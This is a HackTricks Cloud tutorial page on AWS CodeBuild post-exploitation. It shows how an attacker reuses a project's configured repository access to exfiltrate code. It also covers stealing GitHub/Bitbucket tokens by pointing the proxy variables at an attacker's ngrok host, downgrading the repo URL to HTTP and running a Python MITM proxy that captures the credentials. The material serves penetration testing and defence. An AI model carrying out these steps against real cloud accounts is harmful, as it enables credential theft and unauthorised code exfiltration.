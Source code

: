 # AWS - CodeBuild Post Exploitation

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## CodeBuild

For more information, check:

{% content-ref url="../../aws-security/aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../../aws-security/aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### Abuse CodeBuild Repo Access

In order to configure **CodeBuild**, it will need **access to the code repo** that it's going to be using. Several platforms could be hosting this code:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

The **CodeBuild project must have access** to the configured source provider, either via **IAM role** of with a github/bitbucket **token or OAuth access**.

An attacker could easily abuse this configured access to leak the code of the configured repo and others where the set creds have access.\
In order to do this, an attacker would just need to **change the repository URL to each repo the config credentials have access** (note that the aws web will list all of them for you):

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

And **change the Buildspec commands to exfiltrate each repo**.

{% hint style="warning" %}
However, this **task is repetivive and tedious** and if a github token was configured with **write permissions**, an attacker **won't be able to (ab)use those permissions** as he doesn't have access to the token.\
Or does he? Check the next section
{% endhint %}

### Recover Github/Bitbucket Configured Tokens

An attacker **could leak the Github/Bitbucket token** configured or if permissions was configured via OAuth, the **temporary OAuth token used to access the code**.

* An attacker could add the environment variables **http\_proxy** and **https\_proxy** to the CodeBuild project pointing to his machine (for example `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* Then, change the URL of the github repo to use HTTP instead of HTTPS, for example: **http://**github.com/carlospolop-forks/TestActions
* Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http\_proxy and https\_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="127.0.0.1",
    port=4444,
    protocols=[protocol.HTTP], 
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

* Finally, click on **Build the project**, the **credentials** will be **sent in clear text** (base64) to the mitm port:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Now an attacker will be able to use the token from his machine, list all the privileges it has and (ab)use easier than using the CodeBuild service directly.
{% endhint %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
